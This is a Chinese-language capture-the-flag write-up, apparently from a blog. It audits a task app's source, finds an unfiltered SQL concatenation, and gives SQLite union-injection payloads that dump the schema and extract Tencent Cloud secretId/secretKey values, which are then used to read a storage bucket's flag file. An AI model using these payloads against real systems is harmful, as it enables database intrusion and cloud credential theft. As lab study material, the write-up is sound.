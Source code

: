 ## Tasks wp

信息收集阶段，起手一个登录框，在页头处看到该程序的名称，在页脚处看到开发者的链接

![image-20230612110412171](https://cdn.jsdelivr.net/gh/an5er/cloudimg@main/blog/202306121104372.png)

在开发者的github界面找到该项目源码

![image-20230612110522427](https://cdn.jsdelivr.net/gh/an5er/cloudimg@main/blog/202306121105529.png)

通过审计代码发现一个`sql`语句的直接拼接

![image-20230612062930813](https://cdn.jsdelivr.net/gh/an5er/cloudimg@main/blog/202306120629957.png)

query变量是函数SearchTask的参数，跟踪发现，直接传参，没有任何过滤。![image-20230612063111810](https://cdn.jsdelivr.net/gh/an5er/cloudimg@main/blog/202306120631922.png)

然后看代码程序使用的是sqllite数据库，后面就是sqllite注入的步骤

sql注入第一步先闭合嘛，看代码可以写出如下闭合

```
1%') /*
```

然后根据这句话的sql代码前面部分，看到select 有6字段，用union select的话要相同的嘛，就是

```
1%') union select 1,2,3,4,5,6 /*
```

然后因为我们没有创建对应的sql记录嘛，所以union前面找到的为空，回显为union后的值，可以看到比较明显的输出位在2，所以拿到每个表的创建语句

```
1%') union select 1,(select group_concat(sql) from sqlite_master),3,4,5,6 /*
```

发现有个secret表，在源码中的schema.sql并没有这个表，所以看看咯

![image-20230612113307308](https://cdn.jsdelivr.net/gh/an5er/cloudimg@main/blog/202306121133522.png)

读取字段

```
1%') union select 1,url,3,4,secretId,secretKey from secret /*
```

由url看出是腾讯云的储存桶(什么你看不出来？(:

![image-20230612114415497](https://cdn.jsdelivr.net/gh/an5er/cloudimg@main/blog/202306121144612.png)

然后表中也给了ak，阅读腾讯云文档知道可以使用cosbrowser访问储存桶，输入secretId,secretKey，访问其中的flllag文件即可得到flag

![image-20230612063938093](C:\Users\86153\AppData\Roaming\Typora\typora-user-images\image-20230612063938093.png)
